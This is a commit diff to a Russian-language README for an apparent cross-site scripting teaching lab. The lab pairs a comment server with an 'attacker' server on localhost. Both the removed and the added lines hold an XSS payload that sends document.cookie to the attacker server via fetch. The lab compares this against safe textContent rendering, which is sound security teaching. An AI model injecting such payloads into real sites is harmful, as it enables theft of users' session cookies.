

Before and after one commit to smsarov/security, a Markdown page: k-20.cross-site-scripting/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
fix k-20 readme 2

````diff
--- a/k-20.cross-site-scripting/README.md
+++ b/k-20.cross-site-scripting/README.md
@@ -11,18 +11,15 @@ npm install
 node server.js # http://localhost:3000
 ```
 
-запуск сервера злоумышленника (в новом терминале)
+запуск сервера злоумышленника (в новом терминале из той же директории)
 
 ```bash
-cd k-20.cross-site-scripting
-npm install
-
 node attacker.js # http://localhost:4000
 ```
 
 ## Как устроено
 
-- `app.js` — хранит комментарии, отдаёт JSON, отдает `index.html`
+- `server.js` — хранит комментарии, отдаёт JSON, отдает `index.html`
 - `attacker.js` — принимает украденные данные, логирует в консоль
 - `index.html` — форма + список комментариев, два режима рендеринга
 
@@ -37,7 +34,7 @@ node attacker.js # http://localhost:4000
 2. Отправить XSS-payload как комментарий:
 
 ```
-<script>fetch('http://localhost:4000/steal?cookie=' + document.cookie)</script>
+<img src=x onerror="fetch('http://localhost:4000/steal?cookie=' + document.cookie)">
 ```
 
 3. Нажать **textContent (safe)** — скрипт отобразится как текст, ничего не выполнится
````
